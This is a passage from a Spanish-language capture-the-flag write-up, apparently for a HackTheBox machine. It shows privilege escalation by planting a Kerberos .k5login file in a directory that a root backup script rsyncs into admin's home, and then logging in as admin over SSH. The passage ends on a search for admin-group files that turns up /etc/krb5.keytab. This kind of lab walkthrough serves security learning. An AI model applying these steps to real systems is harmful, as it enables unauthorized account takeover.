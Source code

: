Y se encuentra realizando un rsync en carpetas de /home/admin

```console
[j.nakazawa@srv01 ~]$ cat /usr/local/bin/log_backup.sh
```

```
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

Dado que se está utilizando kerberos por detras podemos intentar modificar el archivo *.k5login*

```console
[j.nakazawa@srv01 ~]$ cd /var/log/squid/
[j.nakazawa@srv01 ~]$ echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

y dado que se copia el archivo .k5login al home del usuario admin, esperando unos minutos podemos acceder por ssh con el usuario admin y las credenciales de j.nakazawa

```console
ssh admin@10.10.10.224
```

```
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Aug 30 04:09:01 2022
[admin@srv01 ~]$
```

Revisamos que archivos son propietarios del usuario admin con el siguiente comando

```console
[admin@srv01 ~]$ find / -type f -user admin 2>/dev/null | grep -vE "proc|cgroup"
```

```
/home/admin/squid_logs.tar.gz.2022-08-30-041001
/home/admin/squid_logs.tar.gz.2022-08-30-041101
/var/spool/mail/admin
```

Sin embargo vemos que se encuentra vacio el archivo /var/spool/mail/admin, por tanto buscamos por los archivos que pertenecen a los usuarios que est'an en el grupo admin y encontramos un archivo *krb5.keytab*

```console
find / -type f -group admin 2>/dev/null | grep -vE "proc|cgroup"
```

```
/home/admin/squid_logs.tar.gz.2022-08-30-041301
/usr/local/bin/log_backup.sh
/etc/krb5.keytab
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>